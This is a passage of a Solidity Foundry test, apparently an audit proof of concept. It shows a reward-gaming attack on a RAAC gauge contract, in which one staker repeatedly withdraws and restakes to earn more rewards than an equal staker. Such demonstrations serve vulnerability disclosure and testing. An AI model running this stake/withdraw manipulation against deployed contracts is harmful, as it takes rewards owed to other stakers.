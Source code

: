 ```solidity

        // Set initial weight after time alignment
        vm.prank(address(gaugeController));
        raacGauge.setInitialWeight(5000); // 50% weight

        vm.warp(block.timestamp + 1);

        console2.log("\nContracts:");
        console2.log("rewardToken:  ", address(rewardToken));
        console2.log("veRAACToken: ", address(veRAACToken));
        console2.log("raacGauge: ", address(raacGauge));
        console2.log("");
    }

    function test_stakeWithdrawGaming() public {
        veRAACToken.mint(alice, 800 ether); //same initial balance as bob

        // Move to start of next period for clean test
        uint256 nextPeriod = ((block.timestamp / WEEK) + 1) * WEEK;
        vm.warp(nextPeriod);

        vm.prank(alice);
        raacGauge.stake(900 ether);

        vm.prank(bob);
        raacGauge.stake(900 ether);

        uint256 aliceBalanceAfter = veRAACToken.balanceOf(alice);
        uint256 bobBalanceAfter = veRAACToken.balanceOf(bob);
        assertEq(aliceBalanceAfter, 100 ether); //same voting power
        assertEq(bobBalanceAfter, 100 ether); //same voting power

        vm.prank(address(gaugeController));
        raacGauge.notifyRewardAmount(1000 ether);
        vm.prank(alice);
        raacGauge.voteEmissionDirection(5000);

        vm.warp(block.timestamp + 1 weeks / 2);

        // Record initial rewards state
        uint256 aliceInitialEarned = raacGauge.earned(alice);
        uint256 bobInitialEarned = raacGauge.earned(bob);

        console2.log("Alice earned (initial):", aliceInitialEarned);
        console2.log("Bob earned (initial):", bobInitialEarned);

        // Bob games the system through multiple stake/withdraws
        for (uint256 i = 0; i < 10; i++) {
            vm.prank(bob);
            raacGauge.withdraw(900 ether);
            vm.warp(block.timestamp + 1 hours);

            vm.prank(bob);
            raacGauge.stake(900 ether);
            vm.warp(block.timestamp + 1 hours);
        }

        vm.warp(block.timestamp + 1 days);

        // Calculate actual rewards earned during the gaming period
        uint256 aliceEarned = raacGauge.earned(alice) - aliceInitialEarned;
        uint256 bobEarned = raacGauge.earned(bob) - bobInitialEarned;

```